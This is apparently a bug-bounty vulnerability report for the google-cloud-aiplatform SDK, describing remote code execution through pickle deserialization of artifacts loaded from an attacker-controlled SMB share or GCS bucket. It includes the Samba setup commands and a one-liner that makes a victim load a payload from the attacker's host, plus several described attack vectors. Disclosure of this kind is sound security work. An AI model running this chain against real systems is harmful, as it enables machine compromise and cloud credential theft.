


# OT2 - `google-cloud-aiplatform` - Version `1.147.0` / Remote Code Execution (RCE) via Insecure Deserialization (Bug Chaining)

| Project | Tier | Vulnerability Category | Description |
|---|---|---|---|
| https://pypi.org/project/google-cloud-aiplatform/ | OT2 | Product vulnerabilities | Remote Code Execution (RCE) via Insecure Deserialization using `pickle` and `cloudpickle` packages |

* Source code repository: https://github.com/googleapis/python-aiplatform 

## Introduction

**The following documents the chaining of two distinct vulnerabilities: (1) Insecure Configuration Injection via `AIP_STORAGE_URI` or `staging_bucket` and (2) Insecure Deserialization via `pickle/cloudpickle`, whose technical impact results in Remote Code Execution (RCE) without requiring "self-injection" by the victim.**

**Usually, insecure deserialization vulnerabilities using `pickle` are related to the deserialization of a `.pkl` file (among others), which turns the vulnerability into a sort of out-of-scope "self-command-injection".**

**However, below are one (1) way to reproduce RCE in `google-cloud-aiplatform` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The SDK implements several sinks where serialized Python objects (models, agents, or reasoning engines) are loaded from remote locations. By providing a malicious URI (GCS or SMB/UNC), an attacker can force the SDK to download and deserialize an arbitrary payload.

### The vulnerable code in `google/cloud/aiplatform/prediction/sklearn/predictor.py`:

```python
62:         prediction_utils.download_model_artifacts(artifacts_uri)
...
86:             self._model = pickle.load(open(prediction.MODEL_FILENAME_PKL, "rb"))
```

In this flow, `download_model_artifacts` copies files from the attacker-controlled `artifacts_uri` (which supports SMB/UNC on Windows) to the local environment, and `pickle.load` immediately executes the payload.

## Technical Impact Analysis

### Project Purpose & Context

`google-cloud-aiplatform` is the official Python SDK for **Vertex AI**, Google's unified machine learning platform. It is used by data scientists and ML engineers to orchestrate the entire ML lifecycle, from data preparation and training to model deployment and monitoring. The library handles high-value artifacts, including model weights and complex agentic logic, often involving the serialization of custom Python classes.

### Platform & Deployment Environment

The library is a core component in:
*   **MLOps Pipelines**: CI/CD systems that automate model training and deployment.
*   **Data Science Workstations**: Local environments (Windows/Linux) used for model development and testing.
*   **Vertex AI Managed Services**: Backend environments where the SDK manages model serving and agent orchestration.

### Comprehensive Risk Assessment

The vulnerability is rated as **Critical**. The ability to trigger RCE through network URIs completely bypasses the traditional "local-only" trust boundary of Pickle. In enterprise environments, this can lead to:
*   **GCP Credential Theft**: Exfiltration of IAM tokens from a developer's workstation or a CI/CD runner.
*   **Supply Chain Attacks**: Poisoning shared "Staging Buckets" to compromise all developers in a project.
*   **Lateral Movement**: Pivoting from a compromised researcher's machine to the broader corporate VPC or Cloud project.


## Attack Scenario

* https://bughunters.google.com/learn/improving-your-reports/how-to-report/write-down-the-attack-scenario

### Who wants to exploit a particular vulnerability?

Adversaries targeting AI/ML research data, industrial competitors seeking to steal proprietary model architectures, or malicious actors aiming to hijack high-performance compute resources (TPUs/GPUs) or obtain sensitive Cloud service account keys.

### For what gain?

Intellectual property theft (model architectures, datasets), financial gain via resource hijacking, or long-term persistence in a victim's Cloud infrastructure through credential exfiltration.

### In what way?

Attackers can leverage several remote vectors:
1.  **Staging Redirection**: Social-engineering a developer into using an attacker-controlled `staging_bucket` for an "experiment".
2.  **Artifact Poisoning**: Overwriting remote `.pkl` files in a shared GCS bucket to trigger the TOCTOU race condition during a deployment validation.
3.  **Collaborative Resource Sharing**: Contributing a "malicious agent" to a public or internal hub that triggers RCE when a victim attempts a local evaluation or preview.


# Reproduction steps

## On the Raspberry (attacker)

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

3. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```ini
[lab_share]
    path = /home/kw0/lab_attack
    read only = no
    guest ok = yes
```

4. **Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate the `model.pkl` file directly in the shared path:

```bash
python exploit.py
```



## On Windows (victim)

```powershell
PS L:\Pickle-RCE-Finder\PYPI-google-cloud-aiplatform> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\Pickle-RCE-Finder\PYPI-google-cloud-aiplatform>
```

## Technical Requirements

*   Create a Python enviromnet
    *   `python -m venv .venv`
*   Active de the .venv
    *   `.venv\Scripts\activate`

```bash
pip install "google-cloud-aiplatform[prediction]" scikit-learn joblib
```

### Exploit Execution:

1. **Setting the path SMB as variable environment**:

```
$env:AIP_STORAGE_URI = "\\192.168.1.90\lab_share"
```

2. **Launch deserialization**:

```bash
python -c "import os; from google.cloud.aiplatform.prediction.sklearn.predictor import SklearnPredictor; predictor = SklearnPredictor(); path = os.environ.get('AIP_STORAGE_URI'); predictor.load(path)"
```



# Other RCE vectors in `google-cloud-aiplatform` remotely controlled by an attacker

## Vector #1: GCS Round-Trip TOCTOU (Race Condition)
The SDK implements a pattern where objects are serialized to GCS and immediately read back for validation. This creates a Time-of-Check Time-of-Use (TOCTOU) vulnerability that can be exploited via the network.

### Technical Detail
- **Component/File**: `vertexai/agent_engines/_agent_engines.py`
- **Method/Function**: `_upload_agent_engine()`
- **Sink/Primitive**: `cloudpickle.load(f)` (Line 1224)
- **Control Point**: Staging GCS Bucket objects.

### Attack Logic & Context Reversal
The SDK serializes the `AgentEngine` to a `.pkl` file in a GCS bucket (Line 1216) and then immediately opens a read stream to "validate" the upload (Line 1224). Since GCS is a networked filesystem with inherent latency, an attacker with write access to the same staging bucket can race the SDK. 

> [!IMPORTANT]
> The security boundary broken here is the **Atomicity of Local Validation**. By moving the validation sink to a networked resource, the SDK allows a remote actor to substitute the payload after the "check" (dump) but before the "use" (load).

### Exploit Scenario
1. **Initial Setup**: Attacker deploys a monitoring script (or GCS-triggered Cloud Function) targeting the victim's `staging_bucket`.
2. **Interaction**: The Victim (e.g., a Lead Data Scientist) runs `AgentEngine.create(my_agent)` to deploy a new agent.
3. **Execution**: 
- SDK uploads `reasoning_engine.pkl`.
- Attacker's script detects the new object and immediately overwrites it with a malicious payload.
- SDK initiates the validation `load()`, pulling and executing the attacker's payload locally.
4. **Final Result**: Full machine compromise of the Victim's environment with their GCP credentials.

### Systemic Impact
- **Lateral Movement**: Attackers can pivot from a low-privileged researcher account (with bucket access) to an Admin/Owner account (performing the deployment).
- **Supply Chain**: Malicious templates can trigger this during the "getting started" phase.

---

## Vector #2: Staging Bucket Spec Injection
The SDK allows the redirection of all serialization artifacts to an arbitrary GCS URI, which is then used as a trusted source for local deserialization checks.

### Technical Detail
- **Component/File**: `google/cloud/aiplatform/initializer.py`
- **Method/Function**: `vertexai.init()`
- **Sink/Primitive**: `cloudpickle.load` (multiple locations via `_prepare`)
- **Control Point**: `staging_bucket` parameter.

### Analysis & Impact
If a user is social-engineered into using an attacker-controlled staging bucket URI (e.g., `gs://public-attacker-bucket/malicious-staging`), any subsequent call to `AgentEngine.create()` or `AgentEngine.update()` will download and execute the attacker's payload during the SDK's internal verification phase.

> [!WARNING]
> This bypasses "Self-Injection" because the malicious data is hosted on an **External Infrastructure**, and the exploit is triggered by a standard configuration parameter.

---

## Vector #3: Local Agent Run / Evaluation RCE
The SDK supports a "Local Agent Run" mode for evaluations, which materializes agent state from serialized artifacts.

### Technical Detail
- **Component/File**: `_genai/_evals_common.py`
- **Method/Function**: `_execute_local_agent_run_with_retry()`
- **Sink/Primitive**: `cloudpickle.load`
- **Control Point**: `agent` parameter in evaluation tasks.

### Exploit Scenario
1. **Setup**: Attacker contributes a "Reasoning Engine" or "Agent" to a shared hub or project.
2. **Trigger**: Victim runs an evaluation job (e.g., `eval_task.run(agent=malicious_agent_uri)`).
3. **Impact**: The evaluation runner attempts a "Local Agent Run" to benchmark performance. This triggers the download and `load()` of the agent's state, leading to RCE on the benchmarking machine.